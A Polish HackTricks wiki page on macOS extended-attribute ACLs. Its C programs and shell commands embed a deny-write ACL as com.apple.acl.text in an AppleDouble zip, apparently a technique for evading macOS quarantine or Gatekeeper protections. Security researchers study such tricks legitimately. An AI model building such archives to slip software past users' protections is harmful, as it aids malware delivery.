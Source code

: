# Dodatkowe informacje dotyczące xattr-acls w macOS

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia dla HackTricks:

* Jeśli chcesz zobaczyć **reklamę swojej firmy w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCJI**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do repozytoriów** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) na GitHubie.

</details>
```bash
rm -rf /tmp/test*
echo test >/tmp/test
chmod +a "everyone deny write,writeattr,writeextattr,writesecurity,chown" /tmp/test
./get_acls test
ACL for test:
!#acl 1
group:ABCDEFAB-CDEF-ABCD-EFAB-CDEF0000000C:everyone:12:deny:write,writeattr,writeextattr,writesecurity,chown

ACL in hex: \x21\x23\x61\x63\x6c\x20\x31\x0a\x67\x72\x6f\x75\x70\x3a\x41\x42\x43\x44\x45\x46\x41\x42\x2d\x43\x44\x45\x46\x2d\x41\x42\x43\x44\x2d\x45\x46\x41\x42\x2d\x43\x44\x45\x46\x30\x30\x30\x30\x30\x30\x30\x43\x3a\x65\x76\x65\x72\x79\x6f\x6e\x65\x3a\x31\x32\x3a\x64\x65\x6e\x79\x3a\x77\x72\x69\x74\x65\x2c\x77\x72\x69\x74\x65\x61\x74\x74\x72\x2c\x77\x72\x69\x74\x65\x65\x78\x74\x61\x74\x74\x72\x2c\x77\x72\x69\x74\x65\x73\x65\x63\x75\x72\x69\x74\x79\x2c\x63\x68\x6f\x77\x6e\x0a
```
<details>

<summary>Kod funkcji get_acls</summary>
```c
// gcc -o get_acls get_acls
#include <stdio.h>
#include <stdlib.h>
#include <sys/acl.h>

int main(int argc, char *argv[]) {
if (argc != 2) {
fprintf(stderr, "Usage: %s <filepath>\n", argv[0]);
return 1;
}

const char *filepath = argv[1];
acl_t acl = acl_get_file(filepath, ACL_TYPE_EXTENDED);
if (acl == NULL) {
perror("acl_get_file");
return 1;
}

char *acl_text = acl_to_text(acl, NULL);
if (acl_text == NULL) {
perror("acl_to_text");
acl_free(acl);
return 1;
}

printf("ACL for %s:\n%s\n", filepath, acl_text);

// Convert acl_text to hexadecimal and print it
printf("ACL in hex: ");
for (char *c = acl_text; *c != '\0'; c++) {
printf("\\x%02x", (unsigned char)*c);
}
printf("\n");

acl_free(acl);
acl_free(acl_text);
return 0;
}
```
</details>
```bash
# Lets add the xattr com.apple.xxx.xxxx with the acls
mkdir start
mkdir start/protected
./set_xattr start/protected
echo something > start/protected/something
```
<details>

<summary>Kod funkcji set_xattr</summary>
```c
// gcc -o set_xattr set_xattr.c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/xattr.h>
#include <sys/acl.h>


void print_xattrs(const char *filepath) {
ssize_t buflen = listxattr(filepath, NULL, 0, XATTR_NOFOLLOW);
if (buflen < 0) {
perror("listxattr");
return;
}

char *buf = malloc(buflen);
if (buf == NULL) {
perror("malloc");
return;
}

buflen = listxattr(filepath, buf, buflen, XATTR_NOFOLLOW);
if (buflen < 0) {
perror("listxattr");
free(buf);
return;
}

printf("All current extended attributes for %s:\n", filepath);
for (char *name = buf; name < buf + buflen; name += strlen(name) + 1) {
printf("%s: ", name);
ssize_t valuelen = getxattr(filepath, name, NULL, 0, 0, XATTR_NOFOLLOW);
if (valuelen < 0) {
perror("getxattr");
continue;
}

char *value = malloc(valuelen + 1);
if (value == NULL) {
perror("malloc");
continue;
}

valuelen = getxattr(filepath, name, value, valuelen, 0, XATTR_NOFOLLOW);
if (valuelen < 0) {
perror("getxattr");
free(value);
continue;
}

value[valuelen] = '\0';  // Null-terminate the value
printf("%s\n", value);
free(value);
}

free(buf);
}


int main(int argc, char *argv[]) {
if (argc != 2) {
fprintf(stderr, "Usage: %s <filepath>\n", argv[0]);
return 1;
}

const char *hex = "\x21\x23\x61\x63\x6c\x20\x31\x0a\x67\x72\x6f\x75\x70\x3a\x41\x42\x43\x44\x45\x46\x41\x42\x2d\x43\x44\x45\x46\x2d\x41\x42\x43\x44\x2d\x45\x46\x41\x42\x2d\x43\x44\x45\x46\x30\x30\x30\x30\x30\x30\x30\x43\x3a\x65\x76\x65\x72\x79\x6f\x6e\x65\x3a\x31\x32\x3a\x64\x65\x6e\x79\x3a\x77\x72\x69\x74\x65\x2c\x77\x72\x69\x74\x65\x61\x74\x74\x72\x2c\x77\x72\x69\x74\x65\x65\x78\x74\x61\x74\x74\x72\x2c\x77\x72\x69\x74\x65\x73\x65\x63\x75\x72\x69\x74\x79\x2c\x63\x68\x6f\x77\x6e\x0a";
const char *filepath = argv[1];

int result = setxattr(filepath, "com.apple.xxx.xxxx", hex, strlen(hex), 0, 0);
if (result == 0) {
printf("Extended attribute set successfully.\n\n");
} else {
perror("setxattr");
return 1;
}

print_xattrs(filepath);

return 0;
}
```
</details>

{% code overflow="wrap" %}
```bash
# Create appledoublefile with the xattr entitlement
ditto -c -k start protected.zip
rm -rf start
# extract the files
unzip protected.zip
# Replace the name of the xattr here (if you put it before ditto would have destroyed it)
python3 -c "with open('._protected', 'rb+') as f: content = f.read().replace(b'com.apple.xxx.xxxx', b'com.apple.acl.text'); f.seek(0); f.write(content); f.truncate()"
# zip everything back together
rm -rf protected.zip
zip -r protected.zip protected ._protected
rm -rf protected
rm ._*
```
{% endcode %}
```bash
# Check if it worked
ditto -x -k --rsrc protected.zip .
xattr -l protected
```
<details>

<summary><strong>Dowiedz się, jak hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCJI**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
